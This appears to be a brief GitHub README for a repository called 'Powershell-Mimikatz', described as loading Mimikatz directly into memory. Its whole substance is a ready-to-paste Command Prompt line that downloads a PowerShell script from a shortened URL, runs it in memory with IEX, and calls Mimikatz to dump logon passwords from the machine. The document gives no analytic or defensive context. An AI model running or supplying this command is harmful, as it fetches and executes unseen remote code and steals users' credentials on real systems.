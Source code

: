 # Powershell-Mimikatz

For loading Mimikatz directly into ram.

Use this to use from Command Prompt:
powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/Rtizcl'); Invoke-Mimikatz -Command 'privilege::debug sekurlsa::logonpasswords exit'"
